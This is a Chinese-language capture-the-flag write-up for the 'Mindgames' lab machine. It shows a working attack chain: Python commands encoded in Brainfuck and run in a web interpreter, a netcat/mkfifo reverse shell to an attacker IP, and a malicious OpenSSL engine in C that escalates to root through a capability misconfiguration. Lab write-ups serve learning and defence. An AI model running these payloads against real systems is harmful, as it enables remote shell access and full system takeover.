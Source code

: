 # Mindgames

Just a terrible idea...

---

## 端口扫描

循例 nmap扫：

    22/tcp open  ssh
    80/tcp open  http

进web看，brainfuck，和brainfuck的执行框

## brainfuck

将斐波那契的brainfuck拿去解密：

    def F(n):
        if n <= 1:
            return 1
        return F(n-1)+F(n-2)


    for i in range(10):
        print(F(i))

一段熟悉的python

现在我们编写一段poc:

    import os

    os.system('whoami')

将其进行brainfuck加密，然后在执行框中执行，成功返回：

    mindgames

## Reverse shell

通过刚刚的poc，我发现netcat是可用的，故利用netcat getshell:

    import os

    os.system('mkfifo /tmp/f1;nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1')

将这段代码进行brainfuck加密，即可getshell成功

## 升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"

user.txt在mindgames的home下：

    mindgames@mindgames:~$ cat ./user.txt

## 权限提升

getcap -r / 2>/dev/null 发现openssl具备了suid，翻看垃圾桶

    #include <openssl/engine.h>

    static int bind(ENGINE *e, const char *id)
    {
        setuid(0);
        system("/bin/sh");
    return 1;
    }

    IMPLEMENT_DYNAMIC_BIND_FN(bind)
    IMPLEMENT_DYNAMIC_CHECK_FN()

安装openssllib：

    apt-get install libssl-dev

编译c:

    gcc -fPIC -o getroot.o -c ./test1.c
    gcc -shared -o getroot.so -lcrypto ./getroot.o

运行：

    openssl req -engine ./getroot.so

成功getroot，root.txt在/root下
